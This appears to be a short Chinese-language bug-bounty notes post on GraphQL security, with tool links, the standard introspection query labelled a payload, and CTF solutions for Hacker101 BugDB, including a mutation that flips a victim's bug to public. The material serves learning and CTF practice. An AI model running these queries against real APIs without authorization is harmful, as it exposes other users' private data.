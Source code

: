 ```yaml
---
layout: post
title: BugBounty-GraphQL
---
```


* TOC
{:toc}

## 前置知识

官方文档

+ [https://graphql.cn/](https://graphql.cn/learn/queries/#mutations)

分析工具

+ [chrome插件版Graphiql](https://chrome.google.com/webstore/detail/graphiql-extension/jhbedfdjpmemmbghfecnaeeiokonjclb?hl=en)
+ [graphdoc生成文档](https://github.com/2fd/graphdoc)

通用自省payload，graphiql默认发送

```
{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n      }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n"}
```

## 攻击面

## CTF

### hackone101 BugDB v1

题目提供了GraphiQl的界面，通过右侧的Docs可以得到所有接口信息

![](../images/bugDB_v1_1.png)

使用Query嵌套查询查询

![](../images/bugDB_v1_2.png)

### hackone101 BugDB v2

考点是`Mutation`的使用

需要将`victim`用户的`Bugs`的`privite`属性设置为`false`

```
mutation {
  modifyBug(id: 2, private: false) {
    ok
    bug {
      id
    }
  }
}
```

### hackone101 BugDB v3

## 漏洞报告

## template

## 参考资料

+ [攻击GraphQL](https://xzfile.aliyuncs.com/upload/zcon/2018/7_%E6%94%BB%E5%87%BBGraphQL_phithon.pdf)
